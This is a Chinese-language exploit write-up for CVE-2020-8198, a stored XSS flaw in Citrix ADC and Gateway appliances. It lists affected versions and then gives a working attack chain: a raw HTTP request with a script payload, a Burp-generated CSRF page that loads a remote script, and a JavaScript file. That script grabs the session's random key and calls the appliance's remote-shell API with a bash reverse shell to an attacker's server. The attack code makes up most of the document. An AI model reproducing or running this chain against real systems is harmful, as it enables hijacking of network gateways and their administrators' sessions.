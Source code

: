 （CVE-2020-8198）Citrix 储存型xss
=================================

一、漏洞简介
------------

要求受害者以NSIP管理员（nsroot）的身份登录

二、漏洞影响
------------

Citrix ADC and Citrix Gateway: \< 13.0-58.30

Citrix ADC and NetScaler Gateway: \< 12.1-57.18

Citrix ADC and NetScaler Gateway: \< 12.0-63.21

Citrix ADC and NetScaler Gateway: \< 11.1-64.14 

NetScaler ADC and NetScaler Gateway: \< 10.5-70.18

Citrix SD-WAN WANOP: \< 11.1.1a

Citrix SD-WAN WANOP: \< 11.0.3d

Citrix SD-WAN WANOP: \< 10.2.7

Citrix Gateway Plug-in for Linux: \<  1.0.0.137

三、复现过程
------------

    POST /menu/stapp HTTP/1.1
    Host: www.0-sec.org
    User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    DNT: 1
    Connection: close
    Upgrade-Insecure-Requests: 1
    Content-Length: 96
    Content-Type: application/x-www-form-urlencoded
    X-NITRO-USER: henk

    sid=254&pe=1,2,3,4,5&appname=%0a</title><script>alert('xss')</script>&au=1&username=nsroot

### 深入利用

> csrf.html

    <html>
      <!-- CSRF PoC - generated by Burp Suite Professional -->
      <body>
      <script>history.pushState('', '', '/')</script>
        <form action="https://www.0-sec.org/menu/stapp" method="POST">
          <input type="hidden" name="sid" value="254" />
          <input type="hidden" name="pe" value="1,2,3,4,5" />
          <input type="hidden" name="appname" value="%0a</title><script src='http://localhost:9090/code_exec.js'></script>" />
          <input type="hidden" name="au" value="1" />
          <input type="hidden" name="username" value="nsroot" />
          <input type="submit" value="Submit request" />
        </form>
      </body>
    </html>

> code\_exec.js

    function load(url, callback) {
      var xhr = new XMLHttpRequest();

      xhr.onreadystatechange = function() {
        if (xhr.readyState === 4) {
          rand = callback(xhr.response);
          exec_command(rand);
        }
      }

      xhr.open('GET', url, true);
      xhr.send('');
    }

    function get_rand(payload) {
        var lines = payload.split("\n");
        for(var i = 0; i < lines.length; i++) {
            if (lines[i].includes('var rand = "')) {
                var rand = lines[i].split('"')[1]
                return rand;
            }
        }
    }

    function exec_command(rand) {
        url = '/rapi/remote_shell'
        command = 'bash -c \"bash -i >%26 /dev/tcp/你的服务器/16588 0>%261\"'

        var obj = {
            "params":{
                "warning":"YES"
            },
            "remote_shell":{
                "command":command,
                "prompt":">",
                "target":"shell",
                "suppress":0,
                "execute_in_partition":""
            }
        }

        var xhr = new XMLHttpRequest();
        
        xhr.onreadystatechange = function() {
            if (xhr.readyState === 4) {
                response = JSON.parse(xhr.response);
                alert(response['remote_shell']['output']);
            }
        }

        xhr.open('POST', url, true);
        xhr.setRequestHeader('rand_key', rand)
        xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
        xhr.send('object=' + JSON.stringify(obj));

    }

    var url = '/menu/stc';
    load(url, get_rand)

1.png
